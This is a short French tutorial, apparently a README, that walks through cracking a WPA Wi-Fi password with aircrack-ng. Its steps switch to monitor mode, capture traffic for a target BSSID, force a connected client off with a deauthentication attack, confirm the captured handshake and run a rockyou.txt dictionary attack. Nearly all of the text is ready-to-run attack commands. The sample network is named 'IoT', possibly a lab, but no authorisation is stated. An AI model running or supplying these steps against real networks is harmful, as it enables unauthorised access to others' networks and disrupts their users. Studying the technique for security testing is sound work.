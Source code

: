 # 1. Passer en mode moniteur
```bash
sudo airmon-ng check kill
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode monitor
sudo ifconfig wlan0 up
```

# 2. Trouver le BSSID, le channel, et le client connecté au réseau
```bash
sudo airodump-ng wlan0
```

On obtient par exemple :
```
ESSID : IoT
BSSID : C0:EE:FB:E0:01:E2  
Station (client connecté) : B8:27:EB:E7:39:88  
Channel : 1
```

# 3. Régler le canal
```bash
sudo iwconfig wlan0 channel 1
```

# 4. Lancer airodump-ng pour capturer les paquets
```bash
sudo airodump-ng wlan0 -c 1 --bssid C0:EE:FB:E0:01:E2 -w /tmp/psk --output-format pcap
```
Le résultat est enregistré dans le fichier `/tmp/psk-01.cap` au format pcap.

# 5. Forcer la déconnexion du client
```bash
sudo aireplay-ng --deauth 10 -a C0:EE:FB:E0:01:E2 -c B8:27:EB:E7:39:88 wlan0
```

On force la déconnexion du client connecté au réseau. L'objectif est de le forcer à se reconnecter pour capturer le handshake WPA.

# 6. Vérifier le handshake
```bash
sudo aircrack-ng /tmp/psk-01.cap
```

Ca permet de vérifier si le handshake a bien été capturé.

# 7. Craquer le mot de passe
```bash
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b C0:EE:FB:E0:01:E2 /tmp/psk*.cap
```

On utilise le fichier `rockyou.txt` pour craquer le mot de passe WPA.